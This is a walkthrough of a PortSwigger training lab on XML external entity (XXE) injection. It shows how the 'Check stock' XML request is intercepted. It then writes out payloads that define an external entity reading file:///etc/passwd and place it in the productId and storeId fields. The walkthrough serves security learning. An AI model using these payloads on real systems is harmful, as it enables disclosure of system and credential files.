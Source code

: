 \+ Lab #1    : Exploiting XXE to retrieve files\
\+ Lab Level : Apprentice\
\+ Link      : https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files

## About:
This lab has a ```Check stock``` feature that parses XML input and returns any unexpected values in the response.<br/>
To solve the lab, inject an XML external entity to retrieve the contents of the ```/etc/passwd``` file. <br/>

## End Goal:
Retrieve the content of ```/etc/passwd``` file.

## Detection:
* First of all, we need to find an XML data entry point where we can test for XXE vulnerability.
* According to the lab description, the target Web Application has a check stock feature that parses XML input.
  ![XXE](https://user-images.githubusercontent.com/101610095/221443861-16357268-24f6-40be-9eba-cf94b6c412a8.png)
* Let's visit the ```/product``` and intercept the POST request after clicking on the ```check stock``` button:
  ![XXE2](https://user-images.githubusercontent.com/101610095/221443309-560773a8-e280-438b-b7e9-162d23f0d046.png)
* As you can see here, after clicking on the check stock button, a client-side script issues a POST request to the server, and then the server respond with the following response:<br/> 
  ![XXE3](https://user-images.githubusercontent.com/101610095/221443796-aa626e12-d1df-4bc4-80a2-b2d2d82e0e89.png)
* The client-side script will then process the server's response and update part of the user interface by displaying the number of products left.<br/>
  ![XXE1](https://user-images.githubusercontent.com/101610095/221443008-d18e6537-9e12-4868-9742-a4f126fd598b.png)

> 📝: **NOTE:** <br/>
> Notice that there are 2 data values within the submitted XML document, which means to test systematically for XXE vulnerabilities, we need to test each data node in the XML individually.<br/>
> ![XXE5](https://user-images.githubusercontent.com/101610095/221444607-7e192970-4499-4734-bcb9-1f638b97288f.png)

## Exploitation:
### Manual:
#### Crafting the payload:
* In order to exploit this XXE vulnerability and retrieve the content of ```/etc/passwd``` file, we need to add a suitable ```DOCTYPE``` element that defines an external entity to the XML.
* An External Entity reference is specified using the ```SYSTEM``` keyword and its definition is the ```URL``` from which the value of the entity should be loaded.
* Since, we want to retrieve a local file, we will use ```file:///etc/passwd``` as the URL for our external entity.
* The malicious external entity  should look to something like this:
```XML
<!DOCTYPE foo [ <!ENTITY file SYSTEM "file:///etc/passwd"> ]>
```
* At this stage, all we need to do is to inject this external entity in between the ```XML Prolog``` and the root element ```<stockCheck>```
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  ...
</stockCheck>
```
#### Testing for XXE:
* Let's start with the ```productId``` child element, and replace the *productId* number with a reference to our malicious external entity ```&file;```  :
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>
    &file;
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```
* Let's send the request:<br/>
  ![request](https://user-images.githubusercontent.com/101610095/221447680-dbba6f8b-447b-48a2-9848-d2ed61c2db12.png)
* Server's Response:<br/>
  ![response](https://user-images.githubusercontent.com/101610095/221447686-dd8b0acd-e3ab-41e2-a80c-262515be4c40.png)
* As you can see, we were able to retrieve the content of /etc/passwd file, which means the ```productId``` data node is vulnerable to XXE injection.<br/>
<br/>

* Now, let's test if the ```storeId``` data node is also vulnerable to XXE injection: 
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>
    1
  </productId>
  <storeId>
    &file;
  </storeId>
</stockCheck>
```
* Request: <br/>
![request](https://user-images.githubusercontent.com/101610095/221448126-053c31ab-2723-4dca-abac-98c3c1e7a91c.png)

* Response: <br/>
![response2](https://user-images.githubusercontent.com/101610095/221448138-8f0993f3-10c6-4c03-8111-c2cc00dfcf6c.png)
* It looks like the second data ```storeId``` node is not vulnerable to XXE injection. 

### Automated:

